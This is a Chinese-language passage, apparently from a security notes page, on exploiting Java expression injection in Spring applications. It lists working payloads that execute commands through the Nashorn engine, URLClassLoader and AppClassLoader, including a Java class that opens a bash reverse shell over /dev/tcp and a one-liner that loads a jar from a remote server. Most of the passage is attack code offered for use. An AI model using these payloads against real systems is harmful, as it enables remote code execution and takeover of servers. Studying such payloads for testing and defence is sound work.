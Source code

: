 ```java
// nashorn 可以换成其他的引擎名称
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[3];s[0]='open';s[1]='-a';s[2]='Calculator';java.lang.Runtime.getRuntime().exec(s);")
```

### UrlClassLoader
`JVM`拥有多种`ClassLoader`, 不同的`ClassLoader`会从不同的地方加载字节码文件, 加载方式可以通过不同的文件目录加载, 也可以从不同的`jar`文件加载, 还包括使用网络服务地址来加载. 常见的几个重要的`ClassLoader`: `BootstrapClassLoader`、`ExtensionClassLoader`和`AppClassLoader`、`UrlClassLoader`.

利用思路: 远程加载`class`文件, 通过函数调用或者静态代码块来调用. 先构造一份`Exploit.class`放到远程`vps`即可

例如, 通过构造方法反弹`shell`的`exp.java`:

```java
public class exp {
    public exp(String address) {
        address = address.replace(":","/");
        ProcessBuilder p = new ProcessBuilder("/bin/bash","-c","exec 5<>/dev/tcp/"+address+";cat <&5 | while read line; do $line 2>&5 >&5; done");
        try {
            p.start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```java
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:9999/exp.jar")}).loadClass("exp").getConstructors()[0].newInstance("127.0.0.1:2333")
```

### AppClassLoader
`AppClassLoader`直接面向用户, 它会加载`Classpath`环境变量里定义的路径中的`jar`包和目录. 由于双亲委派的存在, 它可以加载到我们想要的类. 使用的前提是获取, 获取`AppClassLoader`可以通过`ClassLoader`类的静态方法`getSystemClassLoader`.

```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```

```java
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open", "-a", "Calculator"}).start()
```

### 通过其他类获取 AppClassLoader
在实际项目中, 开发者往往会导入很多依赖的`jar`, 或编写自定义类.

例如, 这里利用类`org.springframework.expression.Expression`来获取`AppClassLoader`.

```java
T(org.springframework.expression.spel.standard.SpelExpressionParser).getClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open -a Calculator")
```
